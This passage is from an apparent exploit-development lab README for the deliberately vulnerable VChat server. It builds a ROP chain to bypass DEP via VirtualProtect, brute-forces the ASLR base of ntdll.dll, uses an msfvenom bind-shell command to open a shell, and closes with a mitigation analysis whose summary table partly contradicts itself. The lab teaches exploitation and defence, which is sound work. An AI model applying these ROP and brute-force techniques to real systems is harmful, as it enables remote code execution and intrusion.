            

        3. Now we know the Process ID (PID) of our VChat Process. This will be used in the `ListDLLs` command!

            

        4. Use the following command in a *command prompt* to list the DLLs loaded for a given process with the PID we have specified.

            ```
            $ .\Listdlls64.exe -r -v <PID>
            ```
            * `.\Listdlls64.exe`: We ran the ListDLLs command without adding it to the `PATH`, hence it includes the `.\`.
            * `-r`: This flag tells ListDLLs to flag any DLLs that have been relocated since they could not be loaded at their preferred address.
            * `-v`: This flag tells ListDLLs to display all version information for each DLL it locates.
3. Attempt to Generate a few ROP chains using various DLLs in addition to the VChat executable.
    ```
    !mona rop -m vchat.exe,<filename> -n

    # e.g. !mona rop -m vchat.exe,ntdll.dll -n
    ```
    * It may take a few tries to get a working chain.

    We selected the combination of `vchat.exe` and `ntdll.dll` and got the following ROP chain.
    ```
        #[---INFO:gadgets_to_set_esi:---]
        0x771e7a5a,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7716c7f2,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7713e866,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x77177cbf,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7718b903,  # & call esp [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebx:---]
        0x771e28aa,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x74a1a301,  # put delta into eax (-> put 0x00000201 into ebx)
        0x77142002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        0x771d3ea9,  # XCHG EAX,EBX # OR EAX,E58BFFFA # POP EBP # RETN 0x08 [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (compensate)
        #[---INFO:gadgets_to_set_edx:---]
        0x77170173,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (RETN offset compensation)
        0x41414141,  # Filler (RETN offset compensation)
        0x74a1a140,  # put delta into eax (-> put 0x00000040 into edx)
        0x77142002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7711b6e2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x771d74b6,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x77225c9f,  # &Writable location [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x7717a182,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
        0x77136205,  # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x772118d4,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x771194f1,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ```
4. Now we can locate the *base* address of the DLL we used as part of this ROP chain, there are two methods for doing this when the DLL has been loaded by the VChat process.

    1. Immunity Debugger.
       1. Open the Memory View window (View -> Memory).

            

        2. Scroll until you find the DLL we used in the ROP chain generation. We will look for the base address of the DLL, as we will be able to offset into the `.text` segment where the code associated with the DLL is located.

            

    2. Using [ListDLLs](https://learn.microsoft.com/en-us/sysinternals/downloads/listdlls), we can find the base address of the DLL.
       1. Open Task Manager and locate the VChat Process.

            

            * If you do not have the additional details displayed, you should click the *More Details* button at the bottom of the Task Manager window.
        2. Right Click the process and select *Go to Details*.

            

        3. Now we know the Process ID (PID) of our VChat Process. This will be used in the `ListDLLs` command!

            

        4. Use the following command in a *command prompt* to list the DLLs loaded for a given process with the PID we have specified.

            ```
            $ .\Listdlls64.exe -r -v <PID>
            ```
            * `.\Listdlls64.exe`: We ran the ListDLLs command without adding it to the `PATH`, hence it includes the `.\`.
            * `-r`: This flag tells ListDLLs to flag any DLLs that have been relocated since they could not be loaded at their preferred address.
            * `-v`: This flag tells ListDLLs to display all version information for each DLL it locates.
        5. Locate the DLL we used. The base address will be included. We can use the direct base address or modify it so we offset based on the `.text` segment, as that will be `0x1000` after the base address (though you would need to modify the code to take this into account, as it only varies the high bits).

            


### Rewriting the ROP chain
Since we will be searching for the base of the `ntdll.dll` library, we need to rewrite the ROP chain so the addresses of instructions are in the format of **base + offset** because the offset of functions and their instructions in the loaded DLL do not change in relation to each other and the base address of the DLL. Here, *base* is a variable, and offset is a constant because, as mentioned earlier, this will not change unless the DLL is recompiled. The offset for each instruction can be calculated using the following formula: *offset = instruction address - base*.

> [!IMPORTANT]
> Don't update the Windows 10/11 virtual machine between generation and use otherwise the ROP chain generated might be different. [How to Turn Off Automatic Updates on Windows 10](https://www.cleverfiles.com/howto/disable-update-windows-10.html)

Finally, we get a ROP chain like this once we have rewritten this to use the `base + offset` format:
```
base = 0x77100000   # base of ntdll.dll on your victim machine

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        base + 0xe7a5a,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        base + 0x6c7f2,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x3e866,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebx:---]
        base + 0xe28aa,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x74a1a301,  # put delta into eax (-> put 0x00000201 into ebx)
        base + 0x42002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0xd3ea9,  # XCHG EAX,EBX # OR EAX,E58BFFFA # POP EBP # RETN 0x08 [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (compensate)
        #[---INFO:gadgets_to_set_edx:---]
        base + 0x70173,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (RETN offset compensation)
        0x41414141,  # Filler (RETN offset compensation)
        0x74a1a140,  # put delta into eax (-> put 0x00000040 into edx)
        base + 0x42002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x1b6e2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        base + 0xd74b6,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x125c9f,  # &Writable location [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        base + 0x7a182,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x36205,  # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        base + 0x77cbf,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x8b903,  # & call esp [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        base + 0x1118d4,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        base + 0x194f1,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
```

This ROP chain is the basis for the brute forcing of gadget locations. This is because, even when ASLR is enabled, the offset of the code within the DLL remains the same no matter where in memory the DLL is loaded. So by varying the base address assuming you have correctly calculated the offset, we will eventually get the correct base address leading to a successful execution of the ROP chain to call into `VirtualProtect(...)`.

We can verify this ROP chain and our gadget offsets by modifying our exploit code to reflect [exploit0.py](SourceCode/exploit0.py) and running it against VChat. *Remember* to modify the ROP chain and base address! We are *not verifying* that the chain successfully sets the registers here you can follow the instructions in [VChat_TRUN_ROP](https://github.com/DaintyJet/VChat_TRUN_ROP) to do this, as we will only be verifying that we have the correct offsets.

1. Click on the black button highlighted below, and enter the address we decided on in the previous step(s).

    

2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250129D`, the address of our `RETN` instruction.

    

3. Attack VChat using the [exploit0](./SourceCode/exploit0.py) program and step through the ROP chain to ensure that it has been constructed properly.

    https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/001e199c-0874-4224-8eee-dea220ce3160


### Automatically Restart vchat.exe when it crashes
While brute-forcing the base address of the DLL, some bad guesses will crash the target VChat process. We need to write a simple *batch* (bat) file for VChat to restart it automatically, this will simplify the exploitation process.

Create and run the [restart.bat](./SourceCode/restart.bat) batch file. For this to work, the batch file and *vchat.exe* need to be in the same directory.
 ```
 @echo off
:start
start /w "" "vchat.exe"
goto start
 ```

### Create and run the attack script
Now, we can modify the exploit program to brute force the base address of the target DLL.

1. Generate shellcode using [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) and so it can be added to our shellcode.

	```sh
	$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
	```
      * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
      * `-p windows/shell_bind_tcp`: Specify we are using the TCP bind shell payload for Windows.
      * `RPORT=4444`: Specify the Receiving (Remote) port is 4444.
      * `EXITFUNC=thread`: Exit process, this is running as a thread.
      * `-f python`: Format the output for use in a Python program.
      * `-v SHELL`: Specify SHELL variable.
      * `-b '\x00'`: Set bad characters.

2. Modify your exploit code to reflect [exploit1a.py](SourceCode/exploit1a.py); this is so we can ensure the ROP chain will properly disable the DEP protections and jump to the shellcode. Then run the exploit and observe the results. *Remember* to modify the ROP chain and base address!

   1. Click on the black button highlighted below, and enter the address we decided on in the previous step(s).

        

   2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250129D`, the address of our `RETN` instruction.

       

    3. Now, we step through until we have passed through the ```VirtualProtect(...)``` function and can see the shellcode. Depending on the construction of the ROP chain, it may not work, as shown below.

        https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/eed5beff-3e67-4762-9da8-8656aa09b52d

        * Notice that, in my case, the process crashed! The instructions used to set the `EBP` register are invalid as they cause a collision. In this case it is not the instructions themselves but the order the gadgets are executed in.

            

    4. If the system crashes, you will need to modify the exploit or generate an alternative ROP chain that does not contain invalid instructions that cause collisions between the already set and to-be-set registers! The solution could be as simple as changing the order the gadgets are executed in, or you may need to find alternative gadgets.

        https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/f7da333e-cc33-4248-8ffc-f7c39d000582

        * In this case, the EBP register is set with a simple `POP` instruction, so I moved the instruction used to set the `EBP` register to the end of the ROP chain. You can see this in the example [exploit1b.py](./SourceCode/exploit1b.py) code.
            ```
            #[---INFO:gadgets_to_set_ebp:---]
            base + 0x76cbf,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
            base + 0x8a903,  # & call esp [ntdll.dll] ** REBASED ** ASLR
            ```
3. Now that we have a working ROP chain and know that the offsets are correct, we can generate the final program to brute-force the ROP chain. We do this by modifying our exploit program to reflect [exploit2.py](./SourceCode/exploit2.py). We use a loop to iterate over a reasonable address space and, based on a query to the webserver, determine if the attack was successful.


    

   * Sometimes, you may get a false positive at a specific address. In this case, it is best to increase the starting (lower) address to bypass this.


The Python script automatically creates a Telnet session once the correct base address is hit (if there is no false positive).

[](https://www.youtube.com/watch?v=8WSIHlDKPFE)

> [!NOTE]
> In the test case, we ran into 3 false positives, which required us to adjust the lower_bound starting point.
## Attack Mitigation Table
In this section, we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server; specifically we will be discussing their effects on a buffer overflow that directly overwrites a return address in order to execute a chain of gadgets to disable protections on the stack and attempts to execute shellcode that has been written to the stack. We will make a note that these mitigations may be bypassed if the target application contains additional vulnerabilities.

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigations we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate functions and data structures as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled, its addresses will only be randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on the heap itself, such as allocations or frees of heap objects.
### Individual Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|No Effect| |X | |X |X | X| X| X|
|Partial Mitigation| | |X | | | | |
|Full Mitigation|X| | | | | | | |

---
|Mitigation Level|Defenses|
|-|-|
|No Effect|Address Space Layout Randomization, SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG) |
|Partial Mitigation|Address Space Layout Randomization|
|Full Mitigation|Buffer Security Checks (GS) |
* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack-based buffer overflows that overwrite a function's return address or arguments. This is because the randomly generated security cookie is placed before the return address, and its integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address, in order for us to overflow the return address, we would have to corrupt the security cookie, allowing us to detect the overflow.
* `Defense: Data Execution Prevention (DEP)`: This mitigation strategy proves effective against stack-based buffer overflows that attempt to **directly execute** shellcode located on the stack, as this would raise an exception.
* `Defense: Address Space Layout Randomization (ASLR)`: This defense partially mitigates this attack as it may randomize the addresses gadgets used in the ROP chain are located. When enabled, this may be bypassed if all addresses are in external dependencies, such as DLLs, which may not have their addresses randomized between executions unless the system reboots. We bypass this in our attack through brute force; if this were a 64-bit executable, then this would be less feasible.
* `Defense: SafeSEH`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: SEHOP`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps. 
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|Defense: Buffer Security Check (GS)|X|**No Increase**: ROP Chains are used to bypass DEP.|**Increased Security**: ASLR increases the randomness of the generated security cookie and makes it harder to reliably use ROP Gadgets.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited.| |

> [!NOTE]
> We omit repetitive rows representing ineffective mitigation strategies as their cases are already covered.

## Code
1. [exploit0.py](./SourceCode/exploit0.py): This exploit is used to verify that the original rop chain contains usable gadgets
2. [exploit1a.py](./SourceCode/exploit1a.py): This exploit is used to verify that we have correctly generated offsets
3. [exploit1b.py](./SourceCode/exploit1b.py): This exploit is used to show that we may have to modify the ROP chain in order to avoid collisions.
4. [exploit2.py](./SourceCode/exploit2.py): This exploit is used to brute force the address space and execute the payload.

## References
[[1] Six Facts about Address Space Layout Randomization on Windows](https://www.mandiant.com/resources/blog/six-facts-about-address-space-layout-randomization-on-windows)

[[2] Software defense: mitigating common exploitation techniques](https://msrc.microsoft.com/blog/2013/12/software-defense-mitigating-common-exploitation-techniques/)
